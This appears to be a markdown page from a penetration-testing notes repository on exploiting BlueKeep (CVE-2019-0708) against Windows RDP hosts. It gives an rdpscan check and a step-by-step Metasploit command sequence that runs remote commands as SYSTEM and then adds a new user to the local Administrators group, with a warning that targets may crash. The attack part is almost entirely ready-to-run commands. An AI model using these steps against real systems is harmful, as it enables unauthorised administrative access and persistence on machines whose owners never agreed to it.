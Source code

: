 # BlueKeep [CVE-2019-0708]
---

> [!CAUTION]
> BlueKeep exploit is not stable and might cause a **crash** of the target.

#### 🤓 RTFM

TODO

#### 📝 Prerequisites

- Target is a Windows host with RDP port opened (3389 by default).

#### 🛠️ Do it!

First of all, you can check if target is vulnerable using [RDPScan](https://github.com/robertdavidgraham/rdpscan).

```bash
rdpscan $target
```

To exploit vulnerable targets, run following commands using [Metasploit](https://github.com/rapid7/metasploit-framework).

```bash
# Start metasploit.
msfconsole

# Look for bluekeep exploit.
search bluekeep

# Take (exploit/windows/rdp/cve_2019_0708_bluekeep_rce).
use 1

# Take payload (windows/x64/exec).
show payloads
set payload 19

# Setup the exploit to check exploitability (should return local\SYSTEM).
set CMD whoami
set RHOSTS $target
run

# To gain administrative access.
set CMD net user $username $password /add; net localgroup Administrators $password /add
run
```

#### 🏆 What's next?

TODO